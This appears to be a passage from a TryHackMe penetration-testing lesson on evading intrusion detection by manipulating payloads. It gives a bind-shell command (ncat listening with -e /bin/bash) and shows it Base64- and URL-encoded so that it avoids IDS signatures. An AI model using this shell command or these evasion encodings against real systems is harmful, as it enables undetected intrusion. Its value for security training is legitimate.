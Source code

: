 
### Evasion via Payload Manipulation 

Evasion via payload manipulation includes:

    Obfuscating and encoding the payload
    Encrypting the communication channel
    Modifying the shellcode

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/b468bdac68d5dff8f70e457580531f2c.png)

Obfuscate and Encode the Payload

Because the IDS rules are very specific, you can make minor changes to avoid detection. The changes include adding extra bytes, obfuscating the attack data, and encrypting the communication.

Consider the command ncat -lvnp 1234 -e /bin/bash, where ncat will listen on TCP port 1234 and connect any incoming connection to the Bash shell. There are a few common transformations such as Base64, URL encoding, and Unicode escape sequence that you can apply to your command to avoid triggering IDS/IPS signatures.
Encode to Base64 format

You can use one of the many online tools that encode your input to Base64. Alternatively, you can use base64 commonly found on Linux systems.

```
           
pentester@TryHackMe$ cat input.txt
ncat -lvnp 1234 -e /bin/bash
$ base64 input.txt
bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==

        
```

ncat -lvnp 1234 -e /bin/bash is encoded to bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==.

URL Encoding

URL encoding converts certain characters to the form %HH, where HH is the hexadecimal ASCII representation. English letters, period, dash, and underscore are not affected. You can refer to section 2.4 in RFC 3986 for more information.

One utility that you can easily install on your Linux system is urlencode; alternatively, you can either use an online service or search for similar utilities on MS Windows and macOS. To follow along on the AttackBox, you can install urlencode by running the command apt install gridsite-clients.

```

Pentester Terminal

           
pentester@TryHackMe$ urlencode ncat -lvnp 1234 -e /bin/bash
ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash

        


```
